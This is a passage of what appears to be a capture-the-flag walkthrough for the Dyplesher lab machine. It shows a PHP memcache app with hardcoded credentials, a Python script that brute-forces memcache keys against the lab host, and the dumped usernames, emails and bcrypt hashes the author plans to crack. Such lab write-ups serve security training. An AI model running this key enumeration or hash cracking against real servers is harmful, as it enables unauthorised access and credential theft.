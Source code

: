 Inside, we find the source code of the memcache test application, along with the memcache credentials: `felamos / zxcvbnm`

```php
<pre>
<?php
if($_GET['add'] != $_GET['val']){
	$m = new Memcached();
	$m->setOption(Memcached::OPT_BINARY_PROTOCOL, true);
	$m->setSaslAuthData("felamos", "zxcvbnm");
	$m->addServer('127.0.0.1', 11211);
	$m->add($_GET['add'], $_GET['val']);
	echo "Done!";
}
else {
	echo "its equal";
}
?>
</pre>
```

## Memcache enumeration

We don't have the list of memcache keys but we can write a script that will brute force them and return the values.

```python
#!/usr/bin/env python3

import bmemcached
from pprint import pprint

client = bmemcached.Client('10.10.10.190:11211', 'felamos', 'zxcvbnm')

with open("/usr/share/seclists/Discovery/Variables/secret-keywords.txt") as f:
    for x in [x.strip() for x in f.readlines()]:
        result = str(client.get(x))
        if 'None' not in result:
        	print(x + ": " + result)
```

The memcache instance contains some email addresses, usernames and password hashes that we will try to crack.

```
snowscan@kali:~/htb/dyplesher$ ./brute_keys.py 
email: MinatoTW@dyplesher.htb
felamos@dyplesher.htb
yuntao@dyplesher.htb

password: $2a$10$5SAkMNF9fPNamlpWr.ikte0rHInGcU54tvazErpuwGPFePuI1DCJa
$2y$12$c3SrJLybUEOYmpu1RVrJZuPyzE5sxGeM0ZChDhl8MlczVrxiA3pQK
$2a$10$zXNCus.UXtiuJE5e6lsQGefnAH3zipl.FRNySz5C4RjitiwUoalS

username: MinatoTW
felamos
yuntao
```
